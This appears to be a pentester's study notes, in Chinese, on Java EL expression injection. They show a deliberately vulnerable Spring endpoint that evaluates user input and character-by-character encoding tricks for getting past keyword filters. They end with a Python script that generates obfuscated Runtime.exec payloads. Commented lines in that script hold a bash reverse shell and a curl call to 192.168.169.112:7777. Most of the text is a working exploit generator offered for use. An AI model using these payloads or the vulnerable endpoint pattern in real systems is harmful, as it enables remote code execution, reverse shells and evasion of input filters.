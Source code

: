 主要使用的方法

```
javax.el.ExpressionFactory.createValueExpression()
javax.el.ValueExpression.getValue()
```

测试代码

```
@RequestMapping("/EL")
@ResponseBody
public String ELfunc(@RequestParam String str)throws Exception{
    ExpressionFactory factory = new ExpressionFactoryImpl();
    SimpleContext context = new SimpleContext();
    ValueExpression e = factory.createValueExpression(context,str, String.class);
    return e.getValue(context).toString();
}
```

![image-20220510171621144](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220510171621144.png)

# Bypass

一些绕过方法其实和之前在学习SPEL注入的时候的绕过方法差不多

通过下面这段 EL，能够获取字符 `c` ，同理可以获取任意字符串

```
${true.toString().charAt(0).toChars(99)[0].toString()}
```

利用以上原理，通过 charAt 与 toChars 获取字符，在由 toString 转字符串再用 concat 拼接来绕过一些敏感字符的过滤,比如说拼接calc

```
${true.toString().charAt(0).toChars(99)[0].toString().concat(true.toString().charAt(0).toChars(97)[0].toString()).concat(true.toString().charAt(0).toChars(108)[0].toString()).concat(true.toString().charAt(0).toChars(99)[0].toString())}
```

![image-20220510191152715](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220510191152715.png)

可以用如下exp生产

```
#coding: utf-8

#payload = "bash$IFS-i$IFS>&$IFS/dev/tcp/192.168.169.112/7777$IFS0>&1"
#payload = "bash$IFS-c$IFS'curl 192.168.169.112:7777'"
#exp = '${pageContext.setAttribute("%s","".getClass().forName("%s").getMethod("%s","".getClass()).invoke("".getClass().forName("%s").getMethod("%s").invoke(null),"%s"))}' % ('a','java.lang.Runtime','exec','java.lang.Runtime','getRuntime','open -a Calculator.app')

def encode(payload):
   encode_payload = ""
   for i in range(0, len(payload)):
      if i == 0:
         encode_payload += "true.toString().charAt(0).toChars(%d)[0].toString()" % ord(payload[0])
      else:
         encode_payload += ".concat(true.toString().charAt(0).toChars(%d)[0].toString())" % ord(payload[i])
   return encode_payload

exp = '${"".getClass().forName(%s).getMethod(%s,"".getClass()).invoke("".getClass().forName(%s).getMethod(%s).invoke(null),%s)}' % (encode('java.lang.Runtime'),encode('exec'),encode('java.lang.Runtime'),encode('getRuntime'),encode('calc'))   #修改这里的calc即可

print(exp)
```